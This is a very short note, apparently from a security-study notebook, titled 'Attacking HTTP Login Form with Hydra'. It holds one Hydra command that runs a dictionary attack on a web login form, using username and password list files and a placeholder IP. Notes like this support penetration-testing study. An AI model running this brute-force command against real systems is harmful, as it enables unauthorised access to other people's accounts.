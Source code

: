 ```yaml
---
up: "[[Introduction to Web and HTTP Protocol]]"
---
```


# Attacking HTTP Login Form with Hydra

```bash
hydra -L users.txt -P pass.txt <ip> http-post-form "/login.php:login^USER^&password=^PASS^:Error message"
```
